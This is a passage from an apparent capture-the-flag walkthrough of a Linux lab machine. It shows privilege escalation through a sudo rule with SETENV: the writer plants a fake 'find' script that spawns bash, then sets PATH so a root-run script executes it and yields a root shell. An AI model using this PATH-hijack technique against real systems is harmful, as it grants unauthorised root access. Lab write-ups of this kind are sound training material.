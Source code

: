 The `SETENV` argument is specified. This allows the user to control the environment for the privileged process. We can examine the file as shown below.
```bash
ghost@w140:~$ ls -l /opt/Benz-w140
-rwxr-xr-x 1 root root 423 Feb 17  2023 /opt/Benz-w140
ghost@w140:~$ cat /opt/Benz-w140

#!/bin/bash
. /opt/.bashre
cd /home/ghost/w140      

# clean up log files
if [ -s log/w140.log ] && ! [ -L log/w140.log ]
then
/bin/cat log/w140.log > log/w140.log.old
/usr/bin/truncate -s@ log/w140.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We see that this file is used to run different commands. Notice that the `find` and `chown` commands are specified using their relative paths. This means that if we edit the PATH variable by adding an uncommon directory at the beginning we would be able to execute fake versions of this common. We can create a fake `find` command in the `/tmp` directory that will give us a root shell.
```bash
ghost@w140:/tmp$ nano find
ghost@w140:/tmp$ chmod 755 find 
ghost@w140:/tmp$ cat find 
#!/usr/bin/python3.9

import os
os.system("/bin/bash")
```

Now we can run `/opt/Benz-w140` by setting a new PATH variable. The system while looking for the `find` command in directories specified in the PATh variable, our fake command will be found first and executed.
```bash
ghost@w140:/tmp$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
ghost@w140:/tmp$ sudo PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games /opt/Benz-w140
root@w140:/tmp# ls /root
root.txt
```
Once executed, we obtain root access to the target and we can read the root flag.

## Conclusion

Congratulations! In this walkthrough, you have exploited CVE-2022-23935 to obtain a foothold in a Linux server. Finally, you leverage relative paths to spoof commands on the target.  This machine was designed to show how improper update practices and the use of relative paths to execute commands could affect the security posture of an organisation. Thank you for following up on this walkthrough.
